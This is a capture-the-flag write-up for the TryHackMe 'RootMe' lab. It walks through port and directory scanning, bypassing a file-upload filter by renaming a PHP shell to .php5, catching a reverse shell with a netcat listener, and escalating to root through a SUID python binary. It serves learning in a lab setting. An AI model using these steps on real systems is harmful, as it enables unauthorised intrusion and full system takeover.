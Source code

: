 # RECON
## Nmap
```shell
┌─[✗]─[noxi0us@parrot]─[~]
└──╼ $sudo nmap -sS -sV 10.10.211.17
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 13:20 IST
Nmap scan report for 10.10.211.17
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.86 seconds

```

## Gobuster
```shell
┌─[✗]─[noxi0us@parrot]─[~]
└──╼ $gobuster dir -u http://10.10.211.17 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.211.17
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/27 13:23:15 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.211.17/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.211.17/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.211.17/panel/]
/server-status        (Status: 403) [Size: 277]                                 
/uploads              (Status: 301) [Size: 314] [--> http://10.10.211.17/uploads/]

```
# Gain Access
- we have a hidden directory /panel/
- we will upload our file to get shell on our machine.
- We cannot upload php file on Web Application. We have to bypass it.


- We can change extension to php5 and it uploads files successfully
- tehn start netcat listener at given port 
- Goto /uploads directory and open php5 file.

```shell
┌─[✗]─[noxi0us@parrot]─[~/Desktop/tools/TRYHACKME/CTF/RootMe]
└──╼ $sudo nc -lvnp 1234
[sudo] password for noxi0us: 
listening on [any] 1234 ...
connect to [10.8.22.172] from (UNKNOWN) [10.10.85.148] 33340
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:49:55 up 41 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data

```

- To get tty shell

`python -c 'import pty; pty.spawn("/bin/bash");'`


- Search for file user.txt
`find / -type f -name user.txt 2> /dev/null`

# Priv esc

- now search for SUID permissions and find weird looking path.

`find / -user root -perm /4000 2> /dev/null`

`find / type -f -user root -perm -u=s 2> /dev/null`

- we see that /usr/bin/python is available
- Now search suid permission bypass on Gtfobins.github.io

![image](https://github.com/Zero1s3c/TryhackmeCTF/assets/122147724/06a44f18-5633-4940-8fb9-10432ccd4f99)

- To get tty shell


`python -c 'import pty; pty.spawn("/bin/bash");'`


```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## flag
```shell
bash-4.4$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# find / -type f -name *.txt 2> /dev/null
find / -type f -name *.txt 2> /dev/null
/root/root.txt

```
